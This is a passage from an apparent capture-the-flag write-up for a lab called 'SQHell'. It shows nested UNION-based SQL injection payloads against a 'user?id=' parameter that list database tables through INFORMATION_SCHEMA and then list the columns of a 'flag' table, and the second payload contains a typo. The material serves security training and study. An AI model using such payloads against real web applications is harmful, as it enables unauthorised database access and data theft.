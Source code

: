 After verifying that the **2** number in the query is represented for the **2** number in the bullet list, I will next retrieve the tables from the database:

```
/user?id=0 UNION SELECT "0 UNION SELECT 1,table_name,3,4 FROM INFORMATION_SCHEMA.TABLES",2,3#
```

![Untitled](/assets/SQHell%20images/Untitled%2014.png)

So I have detected the table **flag** exists. I now modify the query to extract the **column name**:

```
/user?id=0 UNION SELECT "0 UNION SELECT 1,colum_name,3,4 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='flag'",2,3#
```
